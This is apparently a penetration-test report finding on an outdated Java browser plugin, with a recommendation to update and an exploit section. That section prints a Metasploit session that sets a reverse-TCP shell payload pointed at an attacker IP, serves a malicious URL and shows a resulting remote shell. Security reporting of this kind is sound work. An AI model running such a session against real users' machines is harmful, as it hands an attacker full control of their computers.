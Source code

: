 ## summary

Outdated Java browser plugins

One or more of the organization’s laptops were seen to be running an outdated, known-vulnerable version of the Java plugin for Internet Explorer.


## description

This version contains a vulnerability that is easily exploitable using one of the recent Java exploit modules from the widely available Metasploit security auditing framework. These modules allow an attacker to gain complete control over the computer of a victim who visits a malicious Web site hosted anywhere on the Internet. If the attacker is inside the office LAN, he can easily trick the victim into visiting that malicious Web site without the victim even knowing it.

## recommendation

At least one of the organization’s computers is running an outdated Java browser plugin, and exploit code is widely-available for several critical vulnerabilities in versions older than “Java 7, update 16.” All of the organization’s Java installations should be updated to the latest version. This can be troublesome, as (unlike the Windows operating system itself) Java plugins sometimes require user input before they will install updates.


## exploit

While the threat described below is more severe if carried out by a local attacker (as she can more readily direct the victim to her malicious Web site), it also works remotely. In fact, if a user can be tricked, by a remote attacker, into clicking on a malicious email or Web link, attacks like this represent a significant perimeter threat. By compromising the victim’s machine, they can give the attacker a local point-of-presence without requiring her to crack WPA keys or gain local access in some other way.

Step 1: Using Metasploit, an attacker can easily create an ad hoc malicious Web site:

```
$ msfconsole 

IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v4.7.0-dev [core:4.7 api:1.0]
+ -- --=[ 1114 exploits - 627 auxiliary - 178 post
+ -- --=[ 307 payloads - 30 encoders - 8 nops

msf > use exploit/multi/browser/java_jre17_exec 

msf exploit(java_jre17_exec) > set PAYLOAD java/shell/reverse_tcp 
PAYLOAD => java/shell/reverse_tcp

msf exploit(java_jre17_exec) > set LHOST 192.168.1.123
LHOST => 192.168.1.123

msf exploit(java_jre17_exec) > set SRVPORT 8081
SRVPORT => 8081

msf exploit(java_jre17_exec) > set URIPATH java_test
URIPATH => java_test

msf exploit(java_jre17_exec) > run
[*] Exploit running as background job.
```

Step 2: At this point, any local user who visits http://192.168.1.123:8081/java_test, and who is running a sufficiently out-of-date version of the Java browser plugin, stands a good chance of giving the attacker full access to his computer:

```
[*] Started reverse handler on 192.168.1.123:4444 

msf exploit(java_jre17_exec) > 

[*] Using URL: http://0.0.0.0:8081/java_test
[*] Local IP: http://192.168.1.123:8081/java_test
[*] Server started.

msf exploit(java_jre17_exec) > 

<remote shell>
```

Figure 1: Attacker in control of the victim’s computer through a remote command shell
